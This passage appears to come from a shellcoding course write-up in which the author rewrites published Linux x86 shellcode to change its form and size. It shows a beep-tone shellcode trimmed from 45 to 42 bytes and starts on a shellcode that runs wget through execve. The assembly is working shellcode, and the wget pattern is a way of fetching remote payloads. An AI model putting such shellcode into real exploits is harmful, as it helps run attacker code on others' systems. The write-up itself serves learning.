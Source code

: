 #### Modifications

It's easy to spot a couple of things we might do differently. For example, the way that values are moved into registers could be changed, and ECX has a `not` instruction performed on it, when we could just move the correct value there in the first place. Let's try these out.

**_morphed shellcode_**

```
; int fd = open("/dev/tty10", O_RDONLY);
xor eax, eax
mov al, 5         ; direct move vs push pop
cdq
push edx
push 0x30317974
push 0x742f2f2f
push 0x7665642f
mov ebx, esp
mov ecx, edx
int 80h

; ioctl(fd, KDMKTONE (19248), 66729180);
mov ebx, eax
mov al, 54        ; direct move vs push pop
mov cx, 0x4b30    ; move correct value vs !value
mov edx, 66729180
int 80h
```

#### Results

The original shellcode was 45 bytes, and our morphed version was 42 bytes. That results in a **6.7%** *_decrease_* in size, which should award us our bonus! Excellent, on to the last exercise.

## Shellcode \#3

This last [shellcode](http://shell-storm.org/shellcode/files/shellcode-611.php) we'll take is a simple 42-byte shellcode that calls `/usr/bin/wget aaaa` via the `execve` system call.

**_original shellcode_**

```
push   0xb
pop    eax
cdq

push   edx
push   0x61616161
mov    ecx,esp
push   edx

push   0x74
push   0x6567772f
push   0x6e69622f
push   0x7273752f
mov    ebx,esp

push   edx
push   ecx
push   ebx
mov    ecx,esp
int    0x80

inc    eax
int    0x80

```